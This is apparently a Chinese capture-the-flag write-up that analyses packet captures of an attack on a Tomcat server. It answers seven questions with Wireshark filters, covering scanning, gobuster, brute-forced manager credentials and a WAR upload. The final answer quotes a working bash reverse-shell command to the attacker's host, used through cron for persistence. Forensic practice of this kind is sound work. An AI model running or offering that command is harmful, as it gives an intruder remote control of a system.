







<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->

```
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息
```

查找恶意扫描，需要确定SYN标志位为 `1`的数据包，确认同一个ip发出大量SYN字段的为攻击者

```
tcp.flags.syn == 1
```


发现大部分的SYN包来自于`14.0.0.120`
第一问：flag{14.0.0.120}

网站直接查询[IP归属地查询 - 在线工具](https://tool.lu/ip/)

第二问：flag{guangzhou}

tomacat的默认端口为`8080`，或者过滤查找请求为`200`

```
http contains "200"
```


第三问：flag{8080}

过滤ip为`14.0.0.120`的攻击源，并查看`http`报文，过滤GET请求

```
ip.src_host == 14.0.0.120 && http && http.request.method == "GET"
```


第四问：flag{gobuster}

tomcat的管理面板默认路径为`url/manager`

```
ip.src_host == 14.0.0.120 && http.uri contains "/manager"
```


第五问：flag{admin-tomcat}

同上还是这个包，往下翻

第六问：flag{JXQOZY.war}

上题题目提到建立了反弹shell，直接过滤

```
ip.src_host == 14.0.0.120 && frame contains "bin/bash"
```

追踪`TCP流`

攻击者通过`cron -i cron`命令定时反弹shell
第七问：flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}
